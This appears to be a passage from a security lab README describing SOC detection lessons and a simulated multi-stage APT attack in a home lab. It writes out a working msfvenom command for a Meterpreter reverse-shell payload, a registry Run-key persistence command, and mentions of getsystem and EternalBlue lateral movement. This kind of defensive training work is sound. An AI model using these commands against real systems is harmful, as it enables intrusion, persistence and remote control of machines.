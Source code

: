 #### PowerShell Exploitation

*Kibana logs confirming PowerShell data exfiltration via
Invoke-WebRequest*

### 💡 Key Learnings

1.  **Detection Tuning**: Initially missed successful login events after
    > brute-force attempts, highlighting the need for rules that track
    > both failed AND successful authentications

2.  **Noise Reduction**: DNS tunneling detection required filtering out
    > legitimate DNS traffic to reduce false positives

3.  **Behavioral Analysis**: PowerShell detection is most effective when
    > focusing on command-line patterns rather than just process
    > execution

4.  **Rule Effectiveness**: Well-crafted correlation rules can detect
    > attacks even when individual events appear benign

## 🕵️ Task 3: Multi-Stage APT Simulation

### Objective

Simulate and respond to a multi-stage APT attack using open-source SOC
tools, covering attack simulation, detection, investigation, and
mitigation.

### Phase 1: Attack Simulation (Red Team)

#### 🔓 Initial Access

-   Generated payload using Metasploit:\
    > msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.31.163
    > LPORT=4444 -f exe -o payload.exe

-   Delivered payload via phishing simulation to Windows 10 target

#### ⬆️ Privilege Escalation & Persistence

-   Used Meterpreter getsystem command for privilege escalation

-   Created registry run key for persistence:\
    > reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v
    > payload /t REG_SZ /d \"C:\\Users\\Public\\payload.exe\"

-   Established scheduled tasks for additional persistence mechanisms

#### ↔️ Lateral Movement

-   Initially attempted PsExec but encountered issues

-   Successfully used EternalBlue vulnerability to compromise Windows 7

-   Achieved cross-session movement between Windows 10 and Windows 7
